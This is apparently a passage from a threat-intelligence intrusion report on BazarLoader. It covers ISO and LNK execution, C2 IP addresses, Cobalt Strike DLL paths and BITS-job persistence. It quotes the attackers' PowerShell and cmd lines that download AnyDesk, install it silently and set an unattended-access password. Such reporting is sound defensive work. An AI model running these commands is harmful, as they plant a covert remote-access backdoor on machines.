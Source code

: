

The original URL of the file can be traced from the file stream log data (Sysmon Event ID 15) as well.



Reviewing the file stream data from Sysmon we can see that the zip contains an ISO file.



TheAnalyst reported similar BazarLoader activity via malicious emails around the same time frame.


# Execution
The BazarLoader ISO downloaded from the OneDrive link, consists of a malicious DLL and shortcut file named “Documents.lnk” which executes the DLL via rundll32.exe.

LNK File

After the initial execution, the malware contacted two of its C2 IPs:
- 159.223.31.75
- 206.189.49.239

We then observed threat actors dropping multiple Cobalt Strike Beacon DLL’s on the host in the following file paths:
- C:\Users\<user>\AppData\Local\Temp\tfpkuengdlu.dll
- C:\ProgramData\temp.dll
- C:\Users\<>\AppData\Local\Temp\uvvfvnnswte.dll


# Persistence
A new BITS job, named “Microsoft Office Manager upgrade v24.24” was created on the beachhead host.



The BITS job failed because the requested URL does not exist.


While reporting failure in the logs, the BITS job did re-execute the mounted ISO files every 3 hours, for the length of the intrusion on the beachhead host.



After the threat actor moved laterally, we observed them installing Anydesk on multiple clients to create additional means of keeping access.

They used PowerShell and cmd to automate the download and installation of AnyDesk. In order to install Anydesk for unattended access you have to set a password. The password here was set to J9kzQ2Y0qO
- (new-object System.Net.WebClient).DownloadFile("http://download.anydesk.com/AnyDesk.exe", "C:\ProgramData\AnyDesk.exe")
- cmd.exe /c C:\ProgramData\AnyDesk.exe --install C:\ProgramData\AnyDesk --start-with-win --silent
- cmd.exe /c echo J9kzQ2Y0qO | C:\ProgramData\anydesk.exe --set-password
- cmd.exe /c C:\ProgramData\AnyDesk.exe --get-id

The threat actor not only leaked their password when installing AnyDesk, but they also temporarily copied the password to the machine as the name of a text file.

